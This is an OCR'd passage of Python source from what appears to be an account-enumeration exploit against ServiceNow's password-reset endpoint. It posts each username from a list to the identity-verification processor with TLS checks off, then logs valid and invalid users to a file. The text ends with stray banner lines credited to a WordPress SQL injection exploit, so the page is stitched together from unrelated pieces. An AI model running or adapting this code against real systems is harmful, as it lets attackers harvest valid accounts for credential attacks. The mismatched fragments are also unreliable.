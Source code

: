                 "Accept-Encoding": "gzip, deflate",
                "Referer": "http://<redacted>/$pwd_reset.do?sysparm_url=ss default",
                "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                "Content-Length": "786",
                "Origin": "http://<redacted>/",
                "Connection": "keep-alive",
                # "X-UserToken":""+userToken+"",
                "Cookie": "glide_user_route="+glide_user_route+";JSESSIONID="+JSESSIONID+"; __CJ_g_startTime=\'"+startTime2[:-6]+"\'"
                }

            data = {
                "sysparm_processor": "PwdAjaxVerifyIdentity",
                "sysparm_scope": "global",
                "sysparm_want_session_messages": "true",
                "sysparm_name":"verifyIdentity",
                "sysparm_process_id":"c6b0c20667100200a5a0f3b457415ad5",
                "sysparm_processor_id_0":"fb9b36b3bf220100710071a7bf07390b",
                "sysparm_user_id_0":""+users.strip()+"",
                "sysparm_identification_number":"1",
                "sysparam_pwd_csrf_token":""+token+"",
                "ni.nolog.x_referer":"ignore",
                "x_referer":"$pwd_reset.do?sysparm_url=ss_default"
                }

            payload_str = urllib.parse.urlencode(data, safe=":+")

        except requests.exceptions.Timeout:
            print ("[!] Connection to host timed out !")
            sys.exit(1)

        try:
            # s = requests.Session()
            # s.verify = False
            time.sleep(2)
            r = requests.post(url, headers=headers2, data=payload_str, timeout=20, verify=False, proxies=proxies)
            if "500" in r.text:
                print (Fore.RED + f"[-] Invalid user: {users.strip()}" + Style.RESET_ALL)
                f = open("enumeratedUserList.txt", "a+")
                f.write(Fore.RED + f"[-] Invalid user: {users.strip()}\n" + Style.RESET_ALL)
                f.close()
            elif "200" in r.text:
                print (Fore.GREEN + f"[+] Valid user: {users.strip()}" + Style.RESET_ALL)
                f = open("enumeratedUserList.txt", "a+")
                f.write(Fore.GREEN + f"[+] Valid user: {users.strip()}\n" + Style.RESET_ALL)
                f.close()
            else:
                print (Fore.RED + f"[-] Invalid user: {users.strip()}" + Style.RESET_ALL)
                f = open("enumeratedUserList.txt", "a+")
                f.write(Fore.RED + f"[-] Invalid user: {users.strip()}\n" + Style.RESET_ALL)
                f.close()
        except KeyboardInterrupt:
            sys.exit()
        except requests.exceptions.Timeout:
            print ("[!] Connection to host timed out !")
            sys.exit(1)
        except Exception as e:
            print (Fore.RED + f"Unable to connect to host" + Style.RESET_ALL)
                                    [+] WP User Frontend - SQL Injection
                                    [@] Developed by Ron Jost (Hacker5preme)